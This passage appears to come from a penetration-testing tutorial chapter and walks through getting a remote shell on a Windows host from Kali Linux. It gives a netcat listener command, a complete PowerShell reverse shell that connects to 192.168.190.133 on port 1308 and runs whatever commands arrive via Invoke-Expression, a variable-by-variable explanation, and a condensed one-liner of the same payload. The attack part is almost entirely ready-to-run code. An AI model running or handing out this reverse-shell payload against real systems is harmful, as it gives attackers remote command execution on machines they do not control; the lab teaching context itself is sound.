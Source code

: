 From Kali Linux, we will use `nc` to set up a listener on port 1308

```bash
nc -nlvp 1308
```

From Windows, we will send a PowerShell reverse shell to the Kali Linux machine through TCP port 1308

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.190.133',1308);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

- `client` variable: the target IP address
- `stream` variable: the TCP stream
- `bytes` variable: the buffer
- `while` loop: read the data from the stream and execute it as a PowerShell command via `iex` (Invoke-Expression)
- `sendback` variable: the output of the command
- `sendback2` variable: the output of the command with the current working directory
- `sendbyte` variable: the output of the command with the current working directory converted to ASCII
- `stream.Write`: write the output of the command with the current working directory to the stream

Turn into an one-liner

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.190.133',1308);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![](./img/Chapter4/30.png)

![](./img/Chapter4/31.png)
